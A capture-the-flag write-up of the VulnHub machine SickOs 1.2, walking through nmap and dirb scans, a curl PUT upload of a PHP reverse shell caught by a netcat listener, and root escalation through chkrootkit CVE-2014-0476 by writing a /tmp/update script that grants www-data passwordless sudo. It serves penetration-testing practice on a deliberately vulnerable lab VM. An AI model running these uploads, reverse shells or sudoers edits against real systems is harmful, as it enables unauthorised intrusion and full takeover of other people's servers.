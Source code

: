 # SickOs 1.2
[Link to vulnhub](https://www.vulnhub.com/entry/sickos-12,144/)

## Reconnaissance
I start with reconnaissance to find the target because it has been set to receive DHCP
```
nmap -sS -O 192.168.159.0/24
```
I found the target at **192.168.159.132**. Now I start enumerate services running on that host.

## Enumeration
```
root@BOEING:/kapi/vulnhub/sic0s1.2# nmap -A -T4 -p- 192.168.159.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-03-03 18:54 PST
Nmap scan report for 192.168.159.132
Host is up (0.00072s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:F8:2E:DB (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.1, Linux 3.16 - 3.19, Linux 3.2 - 4.4, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.72 ms 192.168.159.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.64 seconds
```
From the result of Nmap, I found that the target was running 3 services
* SSH running on tcp port 22
* HTTP running on tcp port 80

Dirb to 192.168.159.132
```
root@BOEING:/kapi/vulnhub/sic0s1.2# dirb http://192.168.159.132/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  3 18:59:24 2017
URL_BASE: http://192.168.159.132/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.159.132/ ----
+ http://192.168.159.132/index.php (CODE:200|SIZE:163)                                                                                                                                  
==> DIRECTORY: http://192.168.159.132/test/                                                                                                                                             
                                                                                                                                                                                        
---- Entering directory: http://192.168.159.132/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Mar  3 18:59:28 2017
DOWNLOADED: 4612 - FOUND: 1
```
I found directory listing on **/test** but there is nothings interesting.

I check for HTTP method OPTIONS on / and /test and I found that many HTTP methods allowed on /test
```
### Request
OPTIONS /test/ HTTP/1.1
Host: 192.168.159.132
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


### Response
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Sat, 04 Mar 2017 03:07:40 GMT
Server: lighttpd/1.4.28
```

## Exploitation
HTTP method PUT allowed with no authenticatio required. An attacker could upload web shell to /test using HTTP method PUT.
Again, I uploaded this [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell) from pentestmonkey.
```
root@BOEING:/kapi/vulnhub/sic0s1.2# curl --upload-file  php-reverse-shell.txt -v --url http://192.168.159.132/test/reverse_shell.php -0 --http1.0
*   Trying 192.168.159.132...
* Connected to 192.168.159.132 (192.168.159.132) port 80 (#0)
> PUT /test/reverse_shell.php HTTP/1.0
> Host: 192.168.159.132
> User-Agent: curl/7.50.1
> Accept: */*
> Content-Length: 5687
> 
* We are completely uploaded and fine
* HTTP 1.0, assume close after body
< HTTP/1.0 201 Created
< Content-Length: 0
< Connection: close
< Date: Sat, 04 Mar 2017 03:25:28 GMT
< Server: lighttpd/1.4.28
< 
* Closing connection 0
```

I started netcat listening server. 
```
nc -nvlp 443
```

I browse to the PHP file I uploaded and shell spawned.
```
root@BOEING:/kapi/vulnhub/sic0s1.2# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.159.3] from (UNKNOWN) [192.168.159.132] 40942
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 19:35:28 up 43 min,  0 users,  load average: 0.02, 0.02, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
**I'd tried to listening on TCP port 8890 before and found that no connection come to my listener then I changed listening port to 443 and modified the php reverse shell before uploaded it again**

I executed Python to spawn a shell.
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ 
```

## Escalation
I enumerated OS version.
```
www-data@ubuntu:/$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.4 LTS
Release:        12.04
Codename:       precise
www-data@ubuntu:/tmp$ dpkg -l | grep chkrootkit
dpkg -l | grep chkrootkit
rc  chkrootkit                      0.49-4ubuntu1.1                   rootkit detector
```
I checked for cron jobs and I found that cron.daily has **chkrootkit**. I knew a vulnerability of chkrootkit [CVE-2014-0476](https://www.exploit-db.com/exploits/33899/) this could allow me to escalate my privilge.

Vulnerable chkrootkit will execute /tmp/update and I could create file named update in /tmp contain shell command that add **sudo su** to user www-data

```
www-data@ubuntu:/tmp$ echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
Wait for 3 hours...
```
www-data@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# ls -al
ls -al
total 28
drwxrwxrwt  4 root     root     4096 Mar  3 21:12 .
drwxr-xr-x 22 root     root     4096 Mar 30  2016 ..
-rw-rw-rw-  1 www-data www-data  225 Mar  3 21:04 kapi.txt
srwxr-xr-x  1 www-data www-data    0 Mar  4  2017 php.socket-0
-rwxrwxrwx  1 www-data www-data   76 Mar  3 21:09 update
-rw-r--r--  1 root     root     1600 Mar  4  2017 vgauthsvclog.txt.0
drwxrwxrwt  2 root     root     4096 Mar  4  2017 VMwareDnD
drwx------  2 root     root     4096 Mar  4  2017 vmware-root
root@ubuntu:/tmp# whoami
whoami
root
```

## Find the flag
```
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls -al
ls -al
total 76
drwx------  4 root root  4096 Apr 26  2016 .
drwxr-xr-x 22 root root  4096 Mar 30  2016 ..
-rw-r--r--  1 root root 39421 Apr  9  2015 304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
-r--------  1 root root   491 Apr 26  2016 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
-rw-------  1 root root  3066 Apr 26  2016 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------  2 root root  4096 Apr 12  2016 .cache
drwxr-xr-x  2 john john  4096 Apr 12  2016 chkrootkit-0.49
-rw-r--r--  1 root root   541 Apr 25  2016 newRule
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
root@ubuntu:~# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```



### For other information
* [Reverse shell cheat sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Basic privilege escalation - g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
